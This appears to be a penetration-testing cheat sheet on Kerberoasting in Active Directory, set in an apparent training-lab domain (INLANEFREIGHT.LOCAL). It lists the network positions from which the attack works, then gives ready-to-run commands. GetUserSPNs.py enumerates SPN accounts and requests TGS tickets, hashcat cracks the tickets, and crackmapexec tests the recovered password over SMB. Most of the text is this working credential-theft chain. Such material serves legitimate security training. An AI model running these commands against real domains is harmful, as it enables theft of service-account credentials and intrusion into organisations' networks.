 
#### Possible Cases

Depending on your position in a network, this attack can be performed in multiple ways:

- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) /netonly.

Listing SPN Accounts
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

Request All TGS Tickets (-outputfile sqldev_tgs)
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

Request TGS Ticket For A Specific User (-outputfile sqldev_tgs)
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

Cracking TGS Tickets
```shell-session
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

Auth Testing
```shell-session
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

https://github.com/ShutdownRepo/targetedKerberoast

